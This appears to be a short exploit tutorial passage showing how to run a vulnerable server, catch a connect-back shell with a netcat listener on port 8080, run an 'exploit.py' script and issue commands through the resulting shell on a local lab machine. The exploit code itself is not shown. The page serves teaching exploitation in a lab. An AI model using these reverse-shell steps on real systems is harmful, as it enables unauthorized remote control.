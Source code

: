 First, run the server in a terminal:

```
$ ./server
```

Second, start _netcat_ in listening mode on port 8080 to receive the connect-back shell:

```
$ nc -vv -l 8080
```

Third, run the exploit in a third terminal:

```
$ python exploit.py
```

Finally, return to the _netcat_ terminal and send some commands:

```
$ nc -vv -l 8080
Connection from 127.0.0.1 port 8080 [tcp/http-alt] accepted
uname -a
Linux xxx-VirtualBox 3.0.0-12-generic #20-Ubuntu SMP Fri Oct 7 14:50:42 UTC 2011 i686 athlon i386 GNU/Linux
```

The files used here are available at Downloads page.